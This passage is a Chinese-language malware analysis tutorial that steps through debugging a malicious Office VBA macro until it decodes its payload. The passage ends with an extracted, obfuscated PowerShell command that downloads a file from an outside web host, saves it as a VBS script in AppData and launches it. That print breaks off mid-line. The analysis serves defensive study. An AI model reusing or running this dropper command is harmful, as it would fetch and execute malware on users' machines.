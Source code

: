 其中Pattern参数用于设置或返回被搜索的正则表达式模式。

如果Global属性的值是True，那就会对整个字符串进行查找。

在此样本中是True。

然后程序通过Dim MyString, SearchPattern, ReplacedText声明了三个变量，并且随后将参数赋值给它们。

最后，程序通过

ReplacedText = RegX.Replace(MyString, ReplaceString)

对字符串进行替换，并且将替换之后的字符串返回回去。

rep函数也执行完成。

最后，程序通过shellObj.Run的方式执行VEC，整个VBA代码执行结束。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d64dabc011a40e29.png)

现在，我们已经完全搞清楚了该VBA代码的执行流程，我们可以很好的在调试器中对它进行调试了。

回到office的宏代码调试器中，将光标定位到代码窗口中，然后直接按下F8，程序就会默认停在该段VBA的入口点：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01227811dd9a5132aa.png)

然后我们在视图菜单栏中调出本地窗口，方便我们观察代码运行时的值。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e01853d192eddd5c.png)

然后就F8单步往下走，当运行到ST赋值这一行的时候，由于我们已经知道rev函数的功能，且rev函数中的循环会跑很多次，所以我们这里就不需要按F8，而是shift + F8， shift + f8的功能有点类似od中的F8,就不会进入函数，而是会直接执行完函数。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0165fcac30d224df25.png)

shift + F8单步运行之后，ST成功赋值

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015042810527ecf2df.png)

然后再后面VEC的赋值中，也shift + F8往下走，三次赋值操作执行完之后，可以看到VEC好像解密出来了一个powershell指令。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t013014ca1dbcf31ace.png)

我们将指令提取出来如下：

```
"Powershell $TRP='*.*-EX'.replace('*.*-','I'); sal Master $TRP;'(&amp;(GCM'+' *W-O*)'+ 'Net.'+'Web'+'Cli'+'ent)'+'.Dow'+'nl'+'oad'+'Fil'+'e(''https://gritodopovo.com.br/natalidade/macro02.mp3'',$env:APPDATA+''''+''armagedon.vbs'')'|Master; start-process($en"
```
